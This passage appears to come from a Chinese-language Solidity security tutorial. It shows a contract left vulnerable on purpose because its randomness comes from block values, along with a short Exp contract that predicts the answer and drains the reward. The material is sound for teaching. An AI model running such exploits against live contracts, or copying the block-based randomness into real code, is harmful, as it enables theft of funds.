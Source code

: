```solidity
        // no one can get the reward
        console.log("Balance:", address(eg).balance);
        vm.stopPrank();
    }
}

```

### Mitigation

不要依赖` this.balance `来追踪账户资金，使用storage或者变量来追踪资金，比如每次收到funds，在变量中加；



## Randomness

### Principle

若使用全局变量，比如` block.hash `、` block.number `、` block.timestamp `等是不安全的，可以被miner和attacker控制；

### Examples

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint256 _guess) public {
        // @audit 结果可以被操纵或者预测
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));

        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```

### Test

Exp:

```solidity
contract Exp {
    GuessTheRandomNumber game;

    constructor(address addr) {
        game = GuessTheRandomNumber(addr);
    }

    function Attack() public {
        uint256 answer = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        game.guess(answer);
    }

    fallback() external payable {}
    receive() external payable {}
}
```
